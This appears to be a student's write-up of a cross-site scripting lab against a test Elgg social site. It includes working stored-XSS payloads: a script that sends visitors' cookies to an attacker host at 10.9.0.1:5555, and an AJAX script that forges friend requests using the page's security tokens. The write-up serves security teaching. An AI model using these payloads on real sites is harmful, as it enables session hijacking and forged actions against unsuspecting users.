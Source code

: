 # Cross-Site Scripting (XSS)

## Question 1

### Task 1
In this task, we logged in as Boby. The goal of the task is to change the "About Me" section in the user profile, so that it executes a script that will show a popup saying "XSS".
We went on Edit Profile and clicked on Edit HTML on the "About Me" section. We inserted the following and saved the changes:
```
<script>alert('XSS');</script>
```
Then, when we opened up Boby's profile, an alert was shown with the "XSS" message. This demonstrated the presence of an XSS vulnerability in the website.
<br> ![image1](docs/images/lb7_1.jpg) <br>

### Task 2
This task is very similar to the previous one, but this time we want the popup to display the user's cookies. We inserted the following in the "About Me" section:
```
<script>alert(document.cookie);</script>
```
Then, when we opened up Boby's profile, an alert was shown with the cookies.
<br> ![image1](docs/images/lb7_2.jpg) <br>

### Task 3
In this task, instead of just displaying the user's cookies in a popup, we want to send the user's cookies to the attacker's server, by sending an HTTP request (GET). It sends the cookies to the port  5555 of the attacker's machine (with IP address 10.9.0.1). We changed Boby's "About Me" section to this:
```
<script>document.write('<img src=http://10.9.0.1:5555?c='
                        + escape(document.cookie) + '   >');
</script>
```
This way, whenever someone opens Boby's profile, the browser will try to load the image from the specified source, but it will instead send HTTP request (GET) to the atacker's machine, sending the user's cookies. In the print below, we can see the HTTP request with the user's cookies:
<br> ![image1](docs/images/lb7_3.jpg) <br>

Then, we switched to Alice's account and visited Boby's profile. We can see that the cookies are being sent to the attacker's machine:

<br> ![image1](docs/images/lb7_4.jpg) <br>

This task demonstrated how an XSS vulnerability can be exploited to steal user cookies, emphasizing the importance of proper input sanitization.

### Task 4
In this task, we want to make it so that when a user enters Samy's profile, it sends him a friend request. So, we went to Samy's profile and clicked on "Add Friend". We detected that a HTTP request (GET) was sent:
<br> ![image1](docs/images/lb7_5.jpg) <br>
After we got this URL from the HTTP request, we filled out the script that we were going to inject on Samy's profile.
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl= "http://www.seed-server.com/action/friends/add?friend=59" + ts + token
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
In this script, `ts` is the timestamp of the request and `token` is a security measure used to validate the authenticity of the request. <br>
Then, we logged into Samy's account and changed his "About me" to the script above. After that, we logged into Alice's account and went to Samy's profile. We can see that we sent an HTTP request to add him as a friend.
<br> ![image1](docs/images/lb7_6.jpg) <br>
After that, we reloaded the page and the "Add friend" button changed, meaning that we added him as a friend, without ever clicking on the button.
<br> ![image1](docs/images/lb7_7.jpg) <br>
This task demonstrated how XSS vulnerabilities can automate actions like sending friend requests, highlighting the importance of securing web applications against such exploits.

#### Task 4 - Question 1

Lines 1 and 2 are used to capture the security tokens required to make the friend request.
- Line 1: This line gets the timestamp value (a unique value generated to protect against replay attacks, which occur when an attacker intercepts and reuses a valid request to perform unauthorized actions). It has a prefix to append to the URL.
- Line 2: This line gets the security token that ensures the request is authentic and prevents unauthorized actions. It has a prefix to append to the URL.

#### Task 4 - Question 2

No, in editor mode I wouldn't be able to perform the attack, because the input is sanitized. I tried to inject this simple script:
```
<script> alert("XSS"); </script>
```
And it was sanitized to:
```
<p>&lt;script&gt; alert("XSS"); &lt;/script&gt;</p>
```

## Question 2

The attacks in these tasks are classified as Stored XSS, because the malicious scripts were inserted into the 'About Me' section of user profiles and stored on the server. As a result, the script remained persistent and was executed each time a user visited the affected profile.
